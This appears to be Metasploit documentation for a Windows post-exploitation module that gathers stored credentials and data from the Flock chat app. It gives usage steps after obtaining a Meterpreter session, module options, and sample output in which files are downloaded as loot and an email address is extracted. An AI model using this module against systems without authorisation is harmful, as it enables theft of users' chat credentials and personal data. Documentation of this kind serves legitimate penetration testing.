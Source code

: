 ## Module Description

This post-exploitation module gathers artifacts found on flock related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/flock
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
mmsf post(windows/gather/credentials/flock) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Flock's parent folder found
[*] Flock's parent folder found
[*] Flock's parent folder found
[*] Flock's *.log file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Flock\IndexedDB\file__0.indexeddb.leveldb\000124.log
[*] Flock 000124.log downloaded
[+] File saved to:  /root/.msf4/loot/20210513124826_default_192.168.56.106_flock000124.log_227739.log

[+] File with credentials saved:  /root/.msf4/loot/20210513124826_default_192.168.56.106_EXTRACTION.log_378223.log
[*] Downloading C:\Users\IEUser\AppData\Roaming\Flock\IndexedDB\https_auth.flock.com_0.indexeddb.leveldb\000004.log
[*] Flock 000004.log downloaded
[+] File saved to:  /root/.msf4/loot/20210513124826_default_192.168.56.106_flock000004.log_041330.log

[+] File with credentials saved:  /root/.msf4/loot/20210513124826_default_192.168.56.106_EXTRACTION.log_514565.log
[*] Downloading C:\Users\IEUser\AppData\Roaming\Flock\Local Storage\leveldb\000008.log
[*] Flock 000008.log downloaded
[+] File saved to:  /root/.msf4/loot/20210513124826_default_192.168.56.106_flock000008.log_824047.log

[+] email":"kazuyoshimaruta@outlook.jp","teamInfo":
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```
